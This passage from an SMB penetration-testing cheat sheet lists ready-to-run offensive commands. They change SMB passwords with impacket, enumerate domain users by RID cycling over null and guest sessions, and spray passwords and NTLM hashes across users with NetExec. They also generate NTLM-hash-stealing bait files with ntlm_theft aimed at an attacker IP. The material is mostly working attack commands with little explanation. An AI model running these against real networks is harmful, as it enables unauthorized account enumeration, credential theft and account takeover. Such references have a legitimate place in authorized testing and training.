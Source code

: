 ```bash
smbpasswd -r <target-ip> -U <username>
# or
impacket-smbpasswd <DOMAIN>/<username>:<password>@<target-ip> -newpass <new-password>
# If you don't have impacket-smbpasswd, download it from a repository.
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/smbpasswd.py
```

## RID Cycling Attack
RID enumeration.  
It attempts to enumerate user accounts through null sessions.

```sh
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000

# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

## Password Spraying Attack
If we have a user password, we might be able to find another user with the same password.
```bash
# User enumeration
nxc smb <target-ip> -u John -p Password123 --users
nxc smb <target-ip> -u John -H <NTLM_HASH> --users

# Find users with same password
nxc smb <target-ip> -u users.txt -p Password123 --continue-on-success
nxc smb <target-ip> -u users.txt -p found_passwords.txt --continue-on-success
nxc smb <target-ip> -u users.txt -H <NTLM_HASH> --continue-on-success
nxc smb <target-ip> -u users.txt -H found_ntlm_hashes.txt --continue-on-success
```


## NTLM Stealing
### Using ntlm_theft
Repository: [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
```bash
# -g all: Generate all files.
# -s: Local IP (attacker IP)
# -f: Folder to store generated files.
python3 ntlm_theft -g all -s <local-ip> -f samples
```
